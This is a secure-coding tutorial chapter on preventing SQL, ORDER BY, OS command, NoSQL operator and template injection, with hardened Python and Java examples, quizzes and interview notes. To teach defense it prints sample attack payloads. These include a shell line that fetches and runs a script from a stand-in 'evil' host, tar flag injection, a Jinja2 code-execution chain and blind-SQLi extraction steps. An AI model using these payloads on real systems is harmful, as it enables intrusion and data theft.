

# Injection Mastery: SQLi, Dynamic ORDER BY, Command Injection, NoSQLi & SSTI

```json continuity
{
  "previously": "In Chapters 01–03, AeroShield v0.3 locked down our Trust Boundary, enforced composite BOLA/BOPLA/BFLA checks, and hardened JWT/OAuth 2.1 verification.",
  "painPoint": "An authenticated passenger searched AeroCart flights with `sort_by=fare_cents; DROP TABLE bookings--` (where SQL `?` placeholders cannot bind column names!), exported a receipt PDF with `filename=receipt.pdf; id` (`shell=True`), logged into the MongoDB loyalty service with `{\"pin\": {\"$ne\": null}}`, and set their ticket greeting name to `{{7*7}}` (SSTI)!",
  "unlock": "Build AeroShield v0.4: separate Code from Data across SQL (parameter binding + strict identifier allowmaps), OS subprocesses (`execve` argument arrays with `shell=False`), NoSQL scalar type guards, and sandboxed template rendering."
}
```

```json walkthrough
[
  {
    "time": "0:00",
    "badge": "Root Cause",
    "title": "Every Injection Bug Is Mixing Untrusted Data into an Interpreter",
    "caption": "Whether the downstream interpreter is PostgreSQL/SQLite, `/bin/sh`, MongoDB's query planner, or Jinja2/Freemarker, injection happens the moment user strings are concatenated into executable syntax.",
    "nodes": ["User Input String", "String Concatenation", "AST Rewritten!", "RCE / Data Dump"],
    "activeIndex": 2,
    "code": "# Vulnerable: Data becomes SQL syntax\nf\"SELECT * FROM flights WHERE dest = '{user_dest}'\""
  },
  {
    "time": "0:25",
    "badge": "SQLi & ORDER BY",
    "title": "Why `?` Placeholders Cannot Bind `ORDER BY` Column Names",
    "caption": "Prepared statements bind data literals (`WHERE dest = ?`), NOT SQL identifiers (table or column names). Dynamic `ORDER BY` or `ASC/DESC` must map user input through a strict hardcoded dictionary!",
    "nodes": ["? Binds Values", "ORDER BY Needs Identifier", "Strict Allowmap Dict", "Zero SQLi"],
    "activeIndex": 2,
    "code": "SORT_COLUMNS = {'price': 'fare_cents', 'departure': 'dep_time'}\ncol = SORT_COLUMNS[user_sort_key]  # KeyError on injection!"
  },
  {
    "time": "0:50",
    "badge": "OS Command Injection",
    "title": "`shell=True` Invokes `/bin/sh -c`; `shell=False` Calls `execve()` Directly",
    "caption": "With `shell=True`, metacharacters (`;`, `|`, `&&`, `$(...)`, backticks) launch new processes. Passing an argument list `['pdftotext', user_file]` with `shell=False` passes raw strings directly to `execve()` without a shell!",
    "nodes": ["shell=True (/bin/sh)", "Metachar `; whoami`", "shell=False (execve)", "Safe Literal Arg"],
    "activeIndex": 2,
    "code": "subprocess.run(['/usr/bin/echo', user_arg], shell=False, check=True)"
  },
  {
    "time": "1:15",
    "badge": "NoSQLi & SSTI",
    "title": "Blocking MongoDB `{\"$ne\": null}` Dicts & Jinja2 `{{config}}` SSTI",
    "caption": "In JSON APIs, attackers send objects (`{\"$gt\": \"\"}`) instead of strings for NoSQL queries, or pass `{{self.__init__.__globals__}}` into email templates rendered from raw user strings.",
    "nodes": ["JSON Dict `{\"$ne\":null}`", "Enforce Scalar `str`", "SSTI `{{7*7}}`", "Static Template + Context"],
    "activeIndex": 3,
    "code": "if not isinstance(pin_input, str):\n    raise TypeError('Blocked NoSQL operator injection')"
  }
]
```

```json pretraining
[
  {
    "term": "SQL Identifier vs. SQL Literal Parameter",
    "formula": "Literal = `?` / `$1` · Identifier = Strict Server Allowmap",
    "meaning": "Database prepared statements (`?` or `$1`) only bind data values (literals). Column names, table names, and sort directions (`ORDER BY fare_cents DESC`) are structural identifiers that must be mapped through a hardcoded server dictionary."
  },
  {
    "term": "OS Command Injection (`shell=True` vs `execve`)",
    "formula": "shell=True -> /bin/sh Metacharacter Parsing · shell=False -> Direct OS argv[]",
    "meaning": "When a program spawns `/bin/sh -c`, characters like `;`, `|`, and `$()` execute arbitrary OS commands. Calling `subprocess.run([binary, arg1], shell=False)` or Java `ProcessBuilder(List.of(binary, arg1))` bypasses the shell completely."
  },
  {
    "term": "NoSQL Operator Injection (`$ne`, `$gt`, `$where`)",
    "formula": "{\"password\": {\"$ne\": null}} -> Evaluates TRUE for First Row!",
    "meaning": "When a JSON API parses a nested dictionary instead of a plain string and passes it directly into a MongoDB filter, query operators like `$ne` (not equal) or `$gt` bypass authentication without knowing the secret."
  },
  {
    "term": "Server-Side Template Injection (SSTI)",
    "formula": "Template(f\"Hello {user_name}\").render() -> Executes {{7*7}}",
    "meaning": "Concatenating user input into a template string *before* rendering allows attackers to inject template expressions (`{{...}}`, `${...}`) that traverse language internals (`__mro__`, `__subclasses__`) to achieve Remote Code Execution (RCE)."
  }
]
```

## 🌱 Step 1: Plain-English Mental Model — When a Fill-in-the-Blank Form Rewrites the Rules

Imagine filling out a paper customs declaration at the airport. Box 4 asks for your **Destination City**. A normal traveler writes `"London"`. What if an attacker writes:
`"London" — AND P.S. IGNORE ALL BAGGAGE FEES FOR THIS PASSENGER`?

A human officer immediately sees that the traveler tried to write instructions inside a data box. Computers, however, are completely literal: whenever a program glues user input directly into a command string (`"SELECT * FROM flights WHERE dest = '" + user_input + "'"`), the downstream interpreter cannot tell where the developer's instructions end and the user's data begins!



Every injection class in software engineering shares this exact same root cause across four interpreters:
1. **SQL Injection (SQLi)**: User text rewrites the SQL query tree (`' UNION SELECT ...`).
2. **OS Command Injection**: User text spawns new shell commands (`receipt.pdf; cat /etc/passwd`).
3. **NoSQL Operator Injection (NoSQLi)**: User JSON dictionary injects MongoDB operators (`{"$ne": null}`).
4. **Server-Side Template Injection (SSTI)**: User text injects template code (`{{7*7}}`) into an email or HTML template string.

---

## 🔨 Step 2: Zero-to-Running Starter & CLI — Parameter Binding & Identifier Allowlisting (`AeroShield v0.4`)

You can verify how SQLite handles parameterized literals vs. dynamic `ORDER BY` identifiers and how Python `subprocess` avoids `/bin/sh` directly from your terminal:

```bash
# Verify that Python subprocess with a list (shell=False) treats '; id' as harmless literal text:
python3 -c 'import subprocess; r = subprocess.run(["/bin/echo", "hello; id"], shell=False, capture_output=True, text=True); print(r.stdout.strip())'
```

Let's build **`AeroShield v0.4`** in Python 3 stdlib—combining parameterized SQL `WHERE` clauses with a strict `ORDER BY` identifier allowmap, `shell=False` command execution, NoSQL scalar validation, and safe template substitution:

```python
from __future__ import annotations
import sqlite3
from string import Template

# Subgoal 1: Map user sort keys to hardcoded SQL column identifiers (since '?' cannot bind column names!)
ALLOWED_SORT_COLUMNS: dict[str, str] = {
    "price_asc": "fare_cents ASC",
    "price_desc": "fare_cents DESC",
    "flight": "flight_id ASC",
}

conn = sqlite3.connect(":memory:")
conn.executescript("""
    CREATE TABLE flights (flight_id TEXT PRIMARY KEY, dest TEXT NOT NULL, fare_cents INTEGER NOT NULL);
    INSERT INTO flights VALUES ('AI-302', 'SFO', 44980), ('BA-118', 'SFO', 62000);
""")


# Subgoal 2: Combine parameterized '?' literal binding with allowmapped ORDER BY identifier
def search_flights_safe(dest_input: str, sort_key: str) -> list[tuple[str, int]]:
    order_clause = ALLOWED_SORT_COLUMNS.get(sort_key)
    if order_clause is None:
        raise ValueError(f"Rejected untrusted ORDER BY key: {sort_key}")
    sql = f"SELECT flight_id, fare_cents FROM flights WHERE dest = ? ORDER BY {order_clause}"
    return conn.execute(sql, (dest_input,)).fetchall()


# Subgoal 3: Block NoSQL operator dictionaries ($ne, $gt) and SSTI template concatenation
def validate_nosql_scalar_and_template(user_pin: object, passenger_name: str) -> str:
    if not isinstance(user_pin, str) or user_pin.startswith("$"):
        raise TypeError("NoSQL operator injection blocked: expected plain str")
    # Safe template: static template string + data passed only as context variables
    static_tpl = Template("Welcome aboard AeroCart, $name!")
    return static_tpl.safe_substitute(name=passenger_name)


# Verify SQLi payload in dest_input returns 0 rows safely, and SQLi in sort_key raises ValueError
assert search_flights_safe("' OR '1'='1", "price_asc") == []
assert search_flights_safe("SFO", "price_desc")[0] == ("BA-118", 62000)

# Verify SSTI payload {{7*7}} is rendered as literal text, never evaluated as 49!
rendered = validate_nosql_scalar_and_template("8492", "{{7*7}}")
assert "{{7*7}}" in rendered and "49" not in rendered
print(f"AeroShield v0.4 verified: {rendered}")
```

### Java 17 Equivalent

```java
import java.util.List;
import java.util.Map;

public class AeroShieldCh04Starter {
    private static final Map<String, String> SORT_ALLOWMAP = Map.of(
            "price_asc", "fare_cents ASC",
            "price_desc", "fare_cents DESC");

    public static void main(String[] args) {
        // Subgoal 1: Validate dynamic ORDER BY against strict allowmap before building PreparedStatement SQL
        String sql = buildSafeSearchQuery("price_asc");
        assert sql.endsWith("ORDER BY fare_cents ASC");

        boolean sqliSortBlocked = false;
        try {
            buildSafeSearchQuery("fare_cents; DROP TABLE flights--");
        } catch (IllegalArgumentException expected) {
            sqliSortBlocked = true;
        }
        assert sqliSortBlocked : "Must block unmapped ORDER BY identifier";

        // Subgoal 2: Construct OS process via ProcessBuilder argv list (never '/bin/sh -c'!)
        ProcessBuilder pb = new ProcessBuilder(List.of("/bin/echo", "receipt.pdf; whoami"));
        assert pb.command().size() == 2 && !pb.command().get(0).contains("sh");
    }

    public static String buildSafeSearchQuery(String userSortKey) {
        String safeOrder = SORT_ALLOWMAP.get(userSortKey);
        if (safeOrder == null) {
            throw new IllegalArgumentException("Untrusted sort key: " + userSortKey);
        }
        return "SELECT flight_id, fare_cents FROM flights WHERE dest = ? ORDER BY " + safeOrder;
    }
}
```

---

## 🛠️ Step 3: Everyday Practitioner Workflows & Where Naive Code Breaks

### Why Developers Still Introduce SQLi Even When Using ORMs & Prepared Statements
Every engineer learns *"Use `?` or `$1` prepared statements"* on Day 1. So why does SQL Injection still happen in Senior codebases?
Because **SQL placeholders (`?` / `$1`) can ONLY bind data values (literals)**. If you try to run `SELECT * FROM flights ORDER BY ?` in PostgreSQL or SQLite, the database sorts by a constant string literal (a no-op!) rather than sorting by that column! Frustrated that `?` doesn't work in `ORDER BY`, `GROUP BY`, or dynamic table names, developers fall back to `f"SELECT ... ORDER BY {request.args['sort']}"`—re-opening full **Boolean/Time-Based Blind SQL Injection** (`ORDER BY (CASE WHEN (SELECT ...) THEN fare_cents ELSE flight_id END)`).

### OS Command Injection, NoSQLi & SSTI Traps
- **Command Injection (`shell=True`)**: Passing `subprocess.run(f"convert {filename} out.png", shell=True)` lets `filename = "a.jpg; curl http://evil/shell.sh | sh"` execute arbitrary commands. Even with `shell=False`, watch out for **Argument Flag Injection**: if `filename = "--open-files-in-pager=sh"`, the target binary treats a leading `-` as a CLI flag unless preceded by `--` (`["git", "diff", "--", user_ref]`).
- **NoSQL Injection (`$ne`, `$gt`, `$regex`)**: In Express/FastAPI/Spring JSON endpoints, an attacker sends `{"username": "admin", "password": {"$ne": ""}}`. If the backend doesn't enforce `password: str`, MongoDB matches the admin row!
- **Server-Side Template Injection (SSTI)**: Writing `jinja2.Template("Hello " + user_input).render()` compiles `user_input` as executable Jinja2 AST (`{{ cycler.__init__.__globals__.os.popen('id').read() }}`). Always keep the template string static (`jinja2.Template("Hello {{ name }}").render(name=user_input)`).

```json contrast
{
  "title": "Dynamic Sort, Subprocess & Template Execution (Naive vs. Staff Hardened)",
  "leftLabel": "❌ Vulnerable to ORDER BY SQLi, Shell RCE & SSTI",
  "leftCode": "# 1. SQLi in ORDER BY (f-string column name)\ncur.execute(f'SELECT * FROM flights WHERE dest=? ORDER BY {sort_col}', (dest,))\n\n# 2. OS Command Injection via /bin/sh\nsubprocess.run(f'tar -czf /tmp/out.tgz {user_dir}', shell=True)\n\n# 3. SSTI via string concatenation into template source\ntpl = jinja2.Template(f'<h1>Ticket for {user_name}</h1>')\nreturn tpl.render()",
  "rightLabel": "✅ Hardened Allowmap, execve argv[] & Static Template",
  "rightCode": "# 1. Strict dictionary allowmap for SQL identifiers\n col_sql = {'price': 'fare_cents', 'time': 'dep_ts'}[sort_col]\ncur.execute(f'SELECT * FROM flights WHERE dest=? ORDER BY {col_sql}', (dest,))\n\n# 2. Direct execve argv[] + '--' end-of-options guard\nsubprocess.run(['/usr/bin/tar', '-czf', '/tmp/out.tgz', '--', user_dir], shell=False, check=True)\n\n# 3. Static template source + autoescaped context variable\ntpl = jinja_env.from_string('<h1>Ticket for {{ user_name }}</h1>')\nreturn tpl.render(user_name=user_name)"
}
```

```json poe
{
  "question": "Predict the outcome: A Python endpoint uses parameterized SQL for the `WHERE` clause (`WHERE tenant_id = ?`), but appends `f\" ORDER BY {request.args.get('sort', 'id')}\"` because `?` placeholders cannot bind column names. What happens if an attacker passes `sort=(SELECT CASE WHEN (1=1) THEN fare_cents ELSE flight_id END)`?",
  "options": [
    "SQLite and PostgreSQL reject subqueries inside `ORDER BY` clauses by default",
    "The database executes the injected `CASE WHEN` expression inside `ORDER BY`, allowing an attacker to extract the entire database bit-by-bit via Boolean-Based Blind SQL Injection by observing the sort order of returned rows!",
    "The parameterized `?` in the `WHERE` clause automatically sanitizes the `ORDER BY` clause",
    "The query fails unless stacked queries (`;`) are enabled"
  ],
  "answerIndex": 1,
  "explanation": "SQL grammars allow arbitrary expressions and subqueries inside `ORDER BY`. By toggling a condition in `CASE WHEN (<secret_bit_check>) THEN col_a ELSE col_b END` and observing whether rows come back sorted by `col_a` or `col_b`, an attacker extracts data 1 bit per request even without `UNION` or stacked queries!"
}
```

---

## 🏢 Step 4: How Big Tech Runs It at Scale, Staff Math & Production Blueprint

### 🏢 In the Wild: Google `TrustedSqlString` & GitLab / Stripe AST Semgrep Gates

How do **Google**, **Stripe**, and **GitLab** eliminate SQLi, Command Injection, and SSTI across millions of lines of code?
1. **Compile-Time / Type-System Construction (`Google SafeSql` / Java `CompileTimeConstant`)**: At Google, database APIs do not accept `String` for SQL queries; they accept a `TrustedSqlString` type that can *only* be constructed from compile-time string literals! If a developer writes `"SELECT ... " + variable`, the code fails to compile.
2. **AST CI Rules (`Semgrep` / `CodeQL`)**: Every Pull Request is scanned for:
   - Python `subprocess.*(..., shell=True)`, `os.system(...)`, `eval(...)`, and `jinja2.Template(f"...")`.
   - Dynamic SQL string formatting (`f"SELECT ..."`, `"SELECT " + ...`) inside `execute()`.

### Staff Blind-Injection Extraction Complexity Math

In Boolean-Based Blind SQL Injection (such as an injected `ORDER BY CASE WHEN ...` or `AND ASCII(SUBSTR(secret, i, 1)) > mid`), an attacker uses binary search over the 7-bit printable ASCII range ($[32, 126]$, size $\le 128$) to extract an $L$-character secret (such as a 64-character SHA-256 hex token or API key):

$$\text{Requests}_{\text{binary\_search}}(L) = L \times \lceil \log_2(|\Sigma|) \rceil \implies 64 \times \lceil \log_2(16) \rceil = 256\text{ HTTP requests}$$

Only **256 HTTP requests** (less than 2 seconds over HTTP/2!) are needed to extract a 64-character hex secret via blind boolean inference!

| Interpreter Sink | Vulnerable Pattern | Staff Hardened Pattern | When Placeholders Alone Fail |
| :--- | :--- | :--- | :--- |
| **SQL (`PostgreSQL` / `SQLite`)** | `f"WHERE id = '{x}'"` | `WHERE id = ?` (`PreparedStatement`) | Identifiers (`ORDER BY`, table names) $\to$ **Use strict allowmap dict!** |
| **OS Subprocess** | `subprocess.run(cmd, shell=True)` | `subprocess.run([bin, "--", arg], shell=False)` | CLI tools interpreting `-flag` args $\to$ **Insert `--` separator!** |
| **MongoDB / NoSQL** | `db.users.find({"pin": req.json["pin"]})` | Validate `isinstance(pin, str)` / `$eq` explicit operator | JSON body parsers decode `{"$ne": null}` into nested dicts |
| **Template Engine (`Jinja2`)** | `Template("Hi " + name).render()` | `SandboxedEnvironment(autoescape=True)` + static template | Never construct template source strings dynamically |

### Production Blueprint: `AeroShield v0.4` Multi-Sink Injection Defense & AST Scanner

```python
from __future__ import annotations
import ast
import re
import sqlite3
from dataclasses import dataclass


@dataclass(frozen=True)
class InjectionAuditResult:
    sink: str
    blocked: bool
    reason: str


class AeroShieldInjectionGuard:
    """Enforces SQL literal + identifier safety, argv[] subprocess rules, NoSQL scalar checks, and AST linting."""

    SORT_ALLOWMAP = {"fare_asc": "fare_cents ASC", "fare_desc": "fare_cents DESC"}
    SAFE_FILENAME_RE = re.compile(r"^[A-Za-z0-9_.-]{1,64}$")

    def __init__(self) -> None:
        self.conn = sqlite3.connect(":memory:")
        self.conn.executescript("""
            CREATE TABLE tickets (id TEXT PRIMARY KEY, tenant_id TEXT, fare_cents INTEGER);
            INSERT INTO tickets VALUES ('T-1', 't_acme', 32000), ('T-2', 't_acme', 19500);
        """)

    def query_tickets(self, tenant_id: str, sort_key: str) -> list[tuple[str, int]]:
        order_by = self.SORT_ALLOWMAP.get(sort_key)
        if not order_by:
            raise PermissionError(f"SQL_IDENTIFIER_REJECTED:{sort_key}")
        return self.conn.execute(
            f"SELECT id, fare_cents FROM tickets WHERE tenant_id = ? ORDER BY {order_by}",
            (tenant_id,),
        ).fetchall()

    def build_safe_archive_argv(self, filename: str) -> list[str]:
        if filename.startswith("-") or not self.SAFE_FILENAME_RE.match(filename):
            raise PermissionError(f"ARG_OR_COMMAND_INJECTION_REJECTED:{filename}")
        return ["/usr/bin/tar", "-czf", "/tmp/archive.tgz", "--", filename]

    def verify_nosql_filter(self, filter_dict: dict[str, object]) -> dict[str, str]:
        sanitized: dict[str, str] = {}
        for k, v in filter_dict.items():
            if k.startswith("$") or not isinstance(v, (str, int)):
                raise PermissionError(f"NOSQL_OPERATOR_INJECTION_REJECTED:{k}={v!r}")
            sanitized[k] = str(v)
        return sanitized

    @staticmethod
    def ast_scan_python_source(source_code: str) -> list[str]:
        """Static AST check catching shell=True and f-string SQL execute() calls."""
        violations: list[str] = []
        tree = ast.parse(source_code)
        for node in ast.walk(tree):
            if isinstance(node, ast.Call):
                for kw in node.keywords:
                    if kw.arg == "shell" and isinstance(kw.value, ast.Constant) and kw.value.value is True:
                        violations.append(f"Line {node.lineno}: subprocess call with shell=True")
                if isinstance(node.func, ast.Attribute) and node.func.attr == "execute":
                    if node.args and isinstance(node.args[0], ast.JoinedStr):
                        violations.append(f"Line {node.lineno}: f-string passed directly to .execute()")
        return violations


if __name__ == "__main__":
    guard = AeroShieldInjectionGuard()
    assert guard.query_tickets("t_acme", "fare_asc")[0] == ("T-2", 19500)

    # 1. Block ORDER BY SQLi
    for sqli_sort in ["fare_cents; DROP TABLE tickets--", "(CASE WHEN 1=1 THEN fare_cents END)"]:
        try:
            guard.query_tickets("t_acme", sqli_sort)
            raise AssertionError("Should block SQLi sort")
        except PermissionError:
            pass

    # 2. Block Command Injection & Flag Injection
    for bad_file in ["receipt.pdf; id", "--checkpoint-action=exec=sh"]:
        try:
            guard.build_safe_archive_argv(bad_file)
            raise AssertionError("Should block command/flag injection")
        except PermissionError:
            pass

    # 3. Block NoSQL `$ne` / `$gt` operator dictionary injection
    try:
        guard.verify_nosql_filter({"user": "alice", "pin": {"$ne": None}})
        raise AssertionError("Should block NoSQL dict operator")
    except PermissionError:
        pass

    # 4. Verify AST scanner catches shell=True and f-string execute()
    bad_code = "subprocess.run(cmd, shell=True)\ncur.execute(f'SELECT * FROM t WHERE id={x}')"
    findings = guard.ast_scan_python_source(bad_code)
    assert len(findings) == 2
    print(f"AeroShield v0.4 verified: {len(findings)} AST sinks caught & runtime guards passed.")
```

### Java 17 Equivalent

```java
import java.util.List;
import java.util.Map;
import java.util.regex.Pattern;

public final class AeroShieldCh04Blueprint {
    private static final Map<String, String> SORT_ALLOWMAP = Map.of(
            "fare_asc", "fare_cents ASC",
            "fare_desc", "fare_cents DESC");
    private static final Pattern SAFE_FILENAME = Pattern.compile("^[A-Za-z0-9_.-]{1,64}$");

    public static String buildSafeOrderBySql(String sortKey) {
        String orderBy = SORT_ALLOWMAP.get(sortKey);
        if (orderBy == null) {
            throw new SecurityException("SQL_IDENTIFIER_REJECTED: " + sortKey);
        }
        return "SELECT id, fare_cents FROM tickets WHERE tenant_id = ? ORDER BY " + orderBy;
    }

    public static List<String> buildSafeTarCommand(String filename) {
        if (filename.startsWith("-") || !SAFE_FILENAME.matcher(filename).matches()) {
            throw new SecurityException("COMMAND_OR_FLAG_INJECTION_REJECTED: " + filename);
        }
        return List.of("/usr/bin/tar", "-czf", "/tmp/archive.tgz", "--", filename);
    }

    public static void assertScalarNoSqlFilter(Map<String, Object> filter) {
        for (Map.Entry<String, Object> entry : filter.entrySet()) {
            if (entry.getKey().startsWith("$") || !(entry.getValue() instanceof String)) {
                throw new SecurityException("NOSQL_OPERATOR_REJECTED: " + entry.getKey());
            }
        }
    }

    public static void main(String[] args) {
        assert buildSafeOrderBySql("fare_asc").endsWith("fare_cents ASC");
        assert buildSafeTarCommand("invoice_101.pdf").contains("--");

        boolean blockedNoSql = false;
        try {
            assertScalarNoSqlFilter(Map.of("pin", Map.of("$ne", "")));
        } catch (SecurityException expected) {
            blockedNoSql = true;
        }
        assert blockedNoSql;
    }
}
```

> [!WARNING]
> **Hiring Bar-Raiser Gotcha — Argument Flag Injection When `shell=False` (`tar`, `git`, `curl`)!**
> In Staff security interviews, candidates rightly say *"I use `subprocess.run([binary, user_arg], shell=False)` to prevent OS Command Injection."* The interviewer then asks: *"Is `subprocess.run(['tar', '-cf', 'out.tar', user_filename], shell=False)` completely safe if `user_filename` is controlled by the user?"*
> **No!** Even without `/bin/sh`, if `user_filename` starts with a hyphen—such as `--checkpoint=1` and `--checkpoint-action=exec=sh` in GNU `tar`, or `--upload-pack=...` in `git`—the target binary parses `user_filename` as a command-line option flag and executes arbitrary code! Always validate filenames against a strict regex AND pass `"--"` (end-of-options delimiter) before positional user arguments!

*Up Next in Chapter 05*: Having secured backend interpreters, we move to the browser execution environment in Module 2—mastering **Reflected/Stored/DOM XSS, Content-Security-Policy (CSP) nonces, CSRF (`SameSite` cookies), and CORS `Origin` reflection bugs**.

```json quiz
[
  {
    "id": "sec04-q1",
    "question": "Why can't standard SQL prepared statement placeholders (`?` or `$1`) be used directly for dynamic `ORDER BY <column_name>` clauses?",
    "options": [
      "Because `ORDER BY` is executed by the client driver rather than the database server",
      "Because prepared statement placeholders bind data literals (values), not structural SQL identifiers (column/table names or `ASC`/`DESC` keywords); dynamic identifiers must be mapped through a strict server-side allowlist dictionary",
      "Because SQLite does not support `ORDER BY` in prepared statements",
      "Because column names exceed 64 bytes"
    ],
    "answerIndex": 1,
    "explanation": "Binding `ORDER BY ?` binds a constant string value (causing every row to compare equal) rather than referencing a column identifier. Always map user sort keys through a hardcoded dictionary (`{'price': 'fare_cents ASC'}`)."
  },
  {
    "id": "sec04-q2",
    "question": "A Node.js or Python API parses a JSON login body `{\"username\": \"admin\", \"password\": {\"$ne\": null}}` and passes it directly into a MongoDB query. Why does this bypass authentication?",
    "options": [
      "MongoDB converts JSON dictionaries into SQL `UNION` queries",
      "Because `password` was parsed as a nested dictionary containing the NoSQL `$ne` (not equal) operator instead of a scalar string, matching any document where `password` is not null",
      "Because JSON does not support null values",
      "Because MongoDB disables password hashing by default"
    ],
    "answerIndex": 1,
    "explanation": "In NoSQL databases like MongoDB, nested dictionaries beginning with `$` (`$ne`, `$gt`, `$regex`) are evaluated as query operators unless the backend strictly validates that inputs are scalar strings."
  },
  {
    "id": "sec04-q3",
    "question": "Even when calling `subprocess.run(['/usr/bin/git', 'diff', user_input], shell=False)`, how can an attacker still exploit the subprocess call if `user_input` is not validated?",
    "options": [
      "By using `;` or `&&` shell chaining",
      "Via Argument/Option Flag Injection (passing `--output=/etc/cron.d/pwn` or `--ext-diff=...` starting with `-`), which the `git` binary parses as CLI flags unless `--` (end-of-options) and strict allowlisting are enforced",
      "By URL-encoding spaces",
      "`shell=False` still invokes `/bin/bash` on Linux"
    ],
    "answerIndex": 1,
    "explanation": "`shell=False` prevents `/bin/sh` metacharacter interpretation, but the target executable still parses leading `-` or `--` strings in `argv[]` as CLI flags unless preceded by `--` and validated."
  }
]
```

---

## 📋 Step 5: Master Cheat-Sheet, 60-Second Interview Pitch & Verified Sources

| Injection Sink | Attack Payload | Python 3 Hardened API | Java 17 Hardened API |
| :--- | :--- | :--- | :--- |
| **SQL Value (`WHERE`)** | `' OR 1=1 --` | `cur.execute("... WHERE id = ?", (val,))` | `PreparedStatement.setString(1, val)` |
| **SQL Identifier (`ORDER BY`)** | `fare_cents; DROP TABLE--` | `ALLOWMAP[user_sort_key]` | `Map.of("price", "fare_cents ASC").get(key)` |
| **OS Subprocess** | `file.pdf; cat /etc/passwd` | `subprocess.run([bin, "--", arg], shell=False)` | `new ProcessBuilder(List.of(bin, "--", arg))` |
| **NoSQL Query (`MongoDB`)** | `{"$ne": null}` / `{"$gt": ""}` | Enforce `isinstance(val, str)` / Pydantic `StrictStr` | Enforce `record LoginReq(String user, String pass)` |
| **Template Engine (`SSTI`)** | `{{7*7}}` / `${7*7}` | Static template + `SandboxedEnvironment(autoescape=True)` | Static template file + context map binding |

### 🎙️ 60-Second Interview Soundbite

> *"Every injection vulnerability occurs when untrusted data is concatenated into a downstream interpreter's syntax tree. To prevent SQL injection, I use parameterized queries for all values and—crucially—a hardcoded server-side dictionary allowmap for dynamic `ORDER BY` columns and sort directions, where `?` placeholders cannot bind identifiers. For OS subprocesses, I forbid `shell=True` via AST CI rules, invoke binaries via `execve` argument arrays (`shell=False` / `ProcessBuilder`), and insert `--` to block option-flag injection. For NoSQL and templates, I enforce strict scalar string types on JSON inputs to block `$ne`/`$gt` operator dictionaries, and never construct Jinja2 or Freemarker template strings dynamically from user input."*

### 📚 Verified Primary Sources
- [OWASP Cheat Sheet Series — SQL Injection Prevention & Identifier Allowlisting](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet Series — OS Command Injection Defense](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [PortSwigger Web Security Academy — Server-Side Template Injection (SSTI)](https://portswigger.net/web-security/server-side-template-injection)
